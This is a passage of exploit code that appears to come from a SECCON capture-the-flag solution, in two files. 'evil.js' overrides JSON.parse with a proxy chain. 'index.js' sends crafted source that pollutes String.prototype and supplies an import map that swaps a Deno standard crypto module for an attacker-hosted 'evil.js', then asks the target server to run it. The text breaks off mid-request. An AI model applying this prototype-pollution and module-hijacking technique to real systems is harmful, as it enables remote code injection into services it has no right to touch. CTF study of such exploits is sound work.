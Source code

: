 ```javascript title="evil.js"
  {
    set(target, property, value, receiver) {
      Object.setPrototypeOf(value, proxy1);
      return Reflect.set(...arguments);
    },
  }
);

JSON.parse = () => proxy2;
```

```javascript title="index.js"
const fastify = require("fastify")();
const fs = require("node:fs");

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL || fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL || fail("No ATTACK_BASE_URL");

const LISTEN_PORT = process.env.PORT || "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const source = `
  output.importMap = input.importMap;
  output.imports = input.imports;
  "".constructor.prototype.replaceAll = "".constructor.raw;
  "".constructor.prototype.raw = input.filename;

  input.key = output;
`;

const importMapJson = JSON.stringify({
  filename: "import_map",
  imports: {
    "https://deno.land/std@0.161.0/crypto/mod.ts": `${ATTACK_BASE_URL}/evil.js`,
  },
});

const denoJson = JSON.stringify({
  filename: "deno",
  importMap: "import_map.json",
});

const exploit = async () => {
  const path = await (
    await fetch(`${SECCON_BASE_URL}/`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        source,
      }),
    })
  ).text();

  await fetch(`${SECCON_BASE_URL}${path}/run`, {
    method: "POST",
    headers: {
```